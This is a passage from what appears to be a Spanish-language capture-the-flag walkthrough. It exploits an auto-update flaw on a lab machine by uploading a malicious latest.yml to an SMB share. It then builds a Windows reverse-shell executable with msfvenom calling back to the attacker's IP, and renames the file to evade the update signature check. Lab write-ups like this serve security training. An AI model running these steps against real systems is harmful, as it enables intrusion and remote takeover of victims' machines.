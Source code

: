 En la parte de `path` vamos a indicarle que al ejecutarse realize una petición a nuestra ip, donde nos pondremos en escucha con `ncat`. Y seguidamente vamos a subir en una de las carpetas `client` nuestro archivo `yaml`.

```bash
❯ smbclient  //10.10.10.237/Software_Updates -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Aug 11 01:18:55 2023
  ..                                  D        0  Fri Aug 11 01:18:55 2023
  client1                             D        0  Fri Aug 11 01:18:55 2023
  client2                             D        0  Fri Aug 11 01:18:55 2023
  client3                             D        0  Fri Aug 11 01:18:55 2023
  UAT_Testing_Procedures.pdf          A    35202  Fri Apr  9 11:18:08 2021

		4413951 blocks of size 4096. 1369525 blocks available
smb: \> cd client1
smb: \client1\> put latest.yml
putting file latest.yml as \client1\latest.yml (0,1 kb/s) (average 0,1 kb/s)
smb: \client1\> dir
  .                                   D        0  Fri Aug 11 01:21:33 2023
  ..                                  D        0  Fri Aug 11 01:21:33 2023
  latest.yml                          A       79  Fri Aug 11 01:21:33 2023

		4413951 blocks of size 4096. 1369525 blocks available
smb: \client1\>
```

Despues de unos segundos recibimos la conexión, lo cual nos garantiza que efectivamente estamos aprovechandonos de la vulnerabilidad.


Lo que vamos a hacer ahora es crearnos un ejecutable malicioso con la ayuda de `msfvenom` para poder obtener una reverse shell de la maquina victima.

```bash
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=443 -f exe -o reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: reverse.exe
```

Una cosa a recalcar que como nos dice el articulo el archivo debemos de llamarlo de una forma especial usando el simbolo `’`

```bash
❯ mv reverse.exe r’everse.exe
❯ ls
 latest.yml   r’everse.exe   UAT_Testing_Procedures.pdf
```

Ademas debemos de modificar nuestro archivo `yml` especificando en el path el archivo y no olvidemos incluir el sha512 del ejecutable.
